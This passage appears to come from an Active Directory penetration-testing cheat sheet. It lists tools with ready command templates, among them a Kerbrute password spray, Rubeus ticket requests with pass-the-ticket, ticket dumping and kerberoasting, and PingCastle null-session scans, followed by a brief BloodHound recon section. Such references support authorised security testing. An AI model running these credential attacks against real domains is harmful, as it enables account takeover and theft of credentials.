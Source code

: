 * [Active Directory Assessment and Privilege Escalation Script](https://github.com/hausec/ADAPE-Script)

    ```powershell
    powershell.exe -ExecutionPolicy Bypass ./ADAPE.ps1 
    ```

* [Ping Castle](https://github.com/vletoux/pingcastle)

    ```powershell
    pingcastle.exe --healthcheck --server <DOMAIN_CONTROLLER_IP> --user <USERNAME> --password <PASSWORD> --advanced-live --nullsession
    pingcastle.exe --healthcheck --server domain.local
    pingcastle.exe --graph --server domain.local
    pingcastle.exe --scanner scanner_name --server domain.local
    available scanners are:aclcheck,antivirus,corruptADDatabase,foreignusers,laps_bitlocker,localadmin,ullsession,nullsession-trust,share,smb,spooler,startup
    ```

* [Kerbrute](https://github.com/ropnop/kerbrute)

    ```powershell
    ./kerbrute passwordspray -d <DOMAIN> <USERS.TXT> <PASSWORD>
    ```

* [Rubeus](https://github.com/GhostPack/Rubeus)

    ```powershell
    Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ptt] [/luid]
    Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]
    Rubeus.exe klist [/luid:LOGINID]
    Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]
    ```

* [AutomatedLab](https://github.com/AutomatedLab/AutomatedLab)
    ```powershell
    New-LabDefinition -Name GettingStarted -DefaultVirtualizationEngine HyperV
    Add-LabMachineDefinition -Name FirstServer -OperatingSystem 'Windows Server 2016 SERVERSTANDARD'
    Install-Lab
    Show-LabDeploymentSummary
    ```

## Active Directory Recon

### Using BloodHound

Use the correct collector
* AzureHound for Azure Active Directory
* SharpHound for local Active Directory

use [AzureHound](https://posts.specterops.io/introducing-bloodhound-4-0-the-azure-update-9b2b26c5e350)
